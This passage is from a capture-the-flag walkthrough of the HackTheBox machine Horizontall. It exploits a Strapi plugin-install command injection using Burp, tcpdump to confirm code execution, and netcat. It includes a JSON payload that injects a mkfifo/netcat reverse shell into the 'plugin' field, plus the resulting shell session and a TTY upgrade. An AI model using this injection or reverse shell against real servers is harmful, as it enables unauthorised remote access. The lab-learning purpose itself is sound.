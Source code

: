 That seems easier in Burp. I’ll visit `http://api-prod.horizontall.htb/admin/plugins/install`, and it returns a page that’s kinda blank:

![image-20210802140217813](https://0xdfimages.gitlab.io/img/image-20210802140217813.png)

I think this endpoint is really only expecting POSTs. I’ll find that request, send it to Repeater, and right-click and change request method. I’ll need to change the `Content-Type` header, and make sure to add (if it’s not there) a `Authorization` header, which I can find looking through the requests I’ve made already. It looks like this:

[![image-20210802140610705](https://0xdfimages.gitlab.io/img/image-20210802140610705.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210802140610705.png)

I’ll start `tcpdump` listening for ICMP traffic, and when I hit send, it hangs for a second, and then returns. At `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:05:06.215442 IP 10.10.10.125 > 10.10.14.6: ICMP echo request, id 2715, seq 1, length 64
14:05:06.215471 IP 10.10.14.6 > 10.10.10.125: ICMP echo reply, id 2715, seq 1, length 64

```

That’s RCE. I’ll look at how they patched this in [Beyond Root](#cve-2019-19609).

#### Shell

To make that return a reverse shell, I’ll use the reverse shell payload used in the blog post:

```

{"plugin": "documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f)", "port": "1337"}

```

On sending, with `nc` listening on 443, it returns a shell:

```

oxdf@hacky$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.125] 46108
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)

```

I’ll upgrade the shell using the `script` trick:

```

$ script /dev/null -c bash
Script started, file is /dev/null
strapi@horizontall:~/myapi$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
strapi@horizontall:~/myapi$ 

```
